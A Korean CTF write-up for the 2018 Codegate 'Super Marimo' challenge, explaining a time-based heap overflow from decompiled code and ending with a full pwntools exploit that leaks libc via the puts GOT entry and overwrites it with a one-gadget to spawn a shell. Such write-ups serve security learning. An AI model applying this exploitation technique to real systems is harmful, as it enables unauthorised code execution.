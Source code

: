 ```yaml
---
title: "2018 Codegate Super Marimo"
date: 2019-12-23
ctf: Codegate CTF
layout: post
---
```


64bit heap overflow 문제다. 변수랑 함수 이름은 내가 수정해놨다.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

이 프로그램에서 hidden function이 존재했다. 

```c
signed __int64 __fastcall vuln(const char *a1)
{
  void *v1; // ST18_8

  if ( strcmp(a1, "show me the marimo") )
    return 0LL;
  v1 = malloc(24uLL);
  sub_400EED(v1, 1u, 5u);
  Marimo[Marimo_cnt++] = v1;
  return 1LL;
}
```

여기서 보면 show me the marimo라는 글자랑 같으면 Marimo를 생성해줄 수 있다.

또 다른 곳에서 만들 수 있긴한데 돈이 필요하다고 떠서 그냥 호출하는 함수는 똑같다.

```c
_BYTE *__fastcall sub_400EED(struct marimo *a1, unsigned int a2, unsigned int a3)
{
  unsigned __int64 v3; // ST00_8
  int v4; // ST04_4

  v3 = __PAIR__(a2, a3);
  *&a1->birth = time(0LL);
  *&a1[1].name = a2;
  *&a1[2].profile = malloc(16uLL);
  puts("What's your new marimo's name? (0x10)");
  printf(">> ", v3);
  fflush(stdout);
  __isoc99_scanf("%16s", *&a1[2].profile);
  *&a1[5].name = malloc(32 * v4);
  printf("write %s's profile. (0x%X)\n", *&a1[2].profile, (32 * v4));
  fflush(stdout);
  printf(">> ");
  fflush(stdout);
  return sub_400FF9(*&a1[5].name, 32 * v4);
}
```

이런식으로 구조체 변수에 넣어서 Marimo를 만들어준다.

보기 쉽게 구조체는 이런식으로 만들어줬다. 

![](https://user-images.githubusercontent.com/32904385/71411403-7fd27f80-268c-11ea-9293-9caee4bc6f31.png)

취약점은 여기서 터진다.

```c
unsigned __int64 __fastcall Modify(struct marimo *a1)
{
  unsigned int v1; // ST18_4
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  char v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts(&byte_4014F4);
  printf("birth : %d\n", *&a1->birth);
  v1 = time(0LL);
  printf("current time : %d\n", v1);
  v3 = v1 + *&a1[1].name - *&a1->birth;
  printf("size : %d\n", v3);
  printf("price : %d\n", 5 * v3);
  printf("name : %s\n", *&a1[2].profile);
  printf("profile : %s\n", *&a1[5].name);
  puts(&byte_4014F4);
  puts("[M]odify / [B]ack ?");
  printf(">> ");
  fflush(stdout);
  __isoc99_scanf("%19s", &v4);
  if ( v4 == 'M' )
  {
    puts("Give me new profile");

    printf(">> ", &v4);
    fflush(stdout);
    sub_400FF9(*&a1[5].name, 32 * v3);          // vuln
    Modify(a1);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

32 * 흐른 시간만큼의 크기로 수정해줄 수 있다. 그래서 여기서 흐른시간을 늘려서 Overflow 일으켜서 함수 포인터를 바꿀 수 있다. 

```
payload : buf[56] + puts_got(profile) + puts_got(name)
```

Marimo를 두개 만들어서 첫 번째 Marimo를 오버플로우나게 해서 puts_got를 Marimo의 name값을 가르키는 포인터에 넣고 view해주면 leak해줄 수 있어서 립씨 베이스를 구할 수 있다.

libc leak해줬으면 oneshot을 이용해서 modify해서 Marimo의 profile을 가르키는 포인터에 oneshot 주소를 구해서 got overwrite 해주면 된다.  `sub_400FF9` 함수에 의해서 개행전까지 입력받을 수 있다.

![](https://user-images.githubusercontent.com/32904385/71410643-6da31200-2689-11ea-856d-14e8dbacef8e.png)

'A'를 40개 입력했을 때 이런식으로 되는데 `0x15e015000` 을 덮지 않고 `0xc5c4c0` 을 바꿔줘야한다. 덮으면 나중에 수정부분에서 입력을 안 받고 프로그램이 꺼진다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./marimo')
e = ELF('./marimo')
libc = e.libc

def vuln(name,profile):
	p.sendlineafter('>> ','show me the marimo')
	p.sendlineafter('>> ',name)
	p.sendlineafter('>> ',profile)

def view(index):
	p.sendlineafter('>> ','V')
	p.sendlineafter('>> ',str(index))

def modify(profile):
	p.sendlineafter('>> ','M')
	p.sendlineafter('>> ',profile)
	p.sendlineafter('>> ','B')

vuln('AAAA','BBBB')
vuln('CCCC','DDDD')

sleep(3)
payload = 'A'*48
payload += p64(0x15e015000)
payload += p64(e.got['puts']) # name
payload += p64(e.got['puts']) # profile

view(0)
modify(payload)
#raw_input()
view(1)
p.recvuntil('name : ')
libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('>> ','M')
p.sendlineafter('>> ',p64(libc_base + 0x45216)) # puts overwrite
p.interactive()
```

